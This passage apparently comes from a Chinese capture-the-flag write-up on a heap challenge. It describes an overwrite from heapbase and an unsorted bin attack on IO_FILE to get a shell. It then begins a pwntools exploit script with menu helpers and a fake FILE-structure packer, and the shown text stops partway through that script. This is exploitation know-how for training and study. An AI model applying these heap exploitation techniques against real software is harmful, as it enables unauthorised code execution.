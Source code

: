 ![5d00d0144e8b547634](https://i.loli.net/2019/06/12/5d00d0144e8b547634.png)

![5d00d08b0c7d147129](https://i.loli.net/2019/06/12/5d00d08b0c7d147129.png)

![5d00cf7291f5569070](https://i.loli.net/2019/06/12/5d00cf7291f5569070.png)



这样再修改第二个chunk时便可以从heapbase开始直接覆写`0x500`个字节

这里通过unsorted bin attack攻击IO_FILE来getshell。

exp:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年06月02日 星期日 09时16分08秒
# File Name: exp.py
# Description:
"""
from pwn import *


io = process('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

#context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']


def debug():
	gdb.attach(io)
	io.interactive()


def add(u,s,n):
	io.sendlineafter('Input your choice >>','1')
	io.sendlineafter('url: ',str(u))
	io.sendafter('size: ',str(s))
	io.sendafter('name: ',n)

def dele(idx):
	io.sendlineafter('Input your choice >>','2')
	io.sendlineafter('index: ',str(idx))

def edit(idx,u,n):
	io.sendlineafter('Input your choice >>','3')
	io.sendlineafter('ex: ',str(idx))
	io.sendlineafter('url: ',str(u))
	io.sendafter('name: ',n)

def show():
	io.sendlineafter('Input your choice >>','4')

#debug()
def pack_file(_flags = 0,
              _IO_read_ptr = 0,
              _IO_read_end = 0,
              _IO_read_base = 0,
              _IO_write_base = 0,
              _IO_write_ptr = 0,
              _IO_write_end = 0,
              _IO_buf_base = 0,
```